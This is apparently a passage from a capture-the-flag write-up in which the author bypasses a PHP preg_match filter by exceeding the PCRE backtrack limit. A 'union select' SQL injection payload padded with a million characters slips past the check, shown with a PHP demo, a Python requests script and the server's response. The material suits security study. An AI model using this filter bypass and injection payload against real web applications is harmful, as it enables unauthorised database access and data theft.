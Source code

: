```css  
[+] Table Name : Th1z_Fack1n_Fl4444g_Tabl  
[+] Table Name : Th1z_Fack1n_Fl4444g_Tabl3  
```  
Then i started looking for a way to dump the columns but i didn't find any way
from mysql documentation. After some hours reading through bunch of docs i
could see used queries are stored in sys.statement_analysis table from
https://dev.mysql.com/doc/refman/8.0/en/sys-statement-analysis.html  
But as we know how CTF stuff is 1000's of queries been sent to server and we
can't blindly go for bruteforce on them. Then i stopped here knowing table
name and couldn't progress further. After poking challenge author, he
mentioned about PHP and Regex issue. Then after an hour or so i figured out
https://bugs.php.net/bug.php?id=70699

If we cross the php pcre backtrace limit
(1000000)(https://www.php.net/manual/en/pcre.configuration.php) we can defeat
the preg_match step. I did same.

```css  
root@MrR3boot:~# php -a  
Interactive mode enabled

php > echo preg_match('/((A)+)/', str_repeat('A', 1363)) ? 1 : 0, PHP_EOL;  
1  
php > echo preg_match('/((A)+)/', str_repeat('A', 13631)) ? 1 : 0, PHP_EOL;  
0  
php > echo preg_match('/((A)+)/', str_repeat('A', 136311)) ? 1 : 0, PHP_EOL;  
0  
php >  
```  
This is how it is in action. Now using this behavior we can easily bypass
union select regex check.

```python  
def union_bypass():  
 payload = 'union/*'+'a'*1000000+'*/select 1,2,3-- -'  
	r = requests.post(url,headers={'Content-Type':'application/x-www-form-urlencoded'},data={'id':'-2 {}'.format(payload)},proxies={'http':'http://127.0.0.1:8080'})  
	print r.text  
 ```  
Output is  
```html  
  
  
  
  
<center>  
Security Check!!! Please enter your ID to prove who are you !!!:  
<form action="index.php" method="POST">  
       <input name="id" value="" />  
  
       <input type="submit" value="Submit" />  
</form>  
</center>

Hello 2  
```
